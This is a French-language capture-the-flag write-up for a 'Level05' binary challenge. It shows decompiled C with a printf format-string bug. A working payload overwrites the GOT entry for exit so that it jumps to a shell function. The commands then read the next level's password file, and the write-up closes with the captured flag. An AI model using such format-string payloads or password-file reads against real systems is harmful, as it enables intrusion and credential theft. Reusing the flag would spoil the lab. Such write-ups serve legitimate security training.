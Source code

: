 # Rapport CTF - [Level05]

### Observation :
En arrivant sur le level4 on trouve un executable nommé level5.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaine de caractere puis se ferme, comme sur le level precedant. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (080484A4) --------------------------------------------------------
void __noreturn o()
{
  system("/bin/sh");
  _exit(1);
}
// 80484A4: using guessed type void __noreturn o();

//----- (080484C2) --------------------------------------------------------
void __noreturn n()
{
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  exit(1);
}

//----- (08048504) --------------------------------------------------------
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  n();
}
```
Nous pouvons voir une fonction non utiliser `o()` qui nous permet d'acceder a un shell. \
Probablement modifier la stack de printf pour changer son addresse de retour vu que nous n'avons pas d'insttuction de retour dans les autres fonctions (ca va etre fastidieux). \
Appel a fonction `exit` et fonction `_exit`


### Solution :
Il nous faut modifier l'operation de saut de la fonction d'appel cour `exit` pour pointer vers la fonction `o()`. \
La premiere ligne de la fonction ressemble a ca : `(jmp *0x8049838)`. \
Je vais modifier l'addresse a laquelle l'operation jmp va dans la memoire pour pointer vers l'addresse de la fonction `o()` = `080484A4` en inverser vu que nous sommes en small endian. \
Il nous faut donc ecrire 164 octets pour le premier octet de notre return `(A4 = 164)`, ensuite 0x84 etant plus petit que 0xA4 il nous faut ecrire 4bits suplementaire donc `(484 = 1156)`, puis `(804 = 2052)`.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('\x08\x04\x98\x38'[::-1] + 'A'*4 + '\x08\x04\x98\x39'[::-1] + 'A'*4 + '\x08\x04\x98\x3a'[::-1] + '%8.x'*3 + 'A'*120 + '%n' + '%992.x' + '%n' + '%896.x' + '%n')"; echo "cat /home/user/level6/.pass") | ./level5
```

### Resultat :
```sh
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
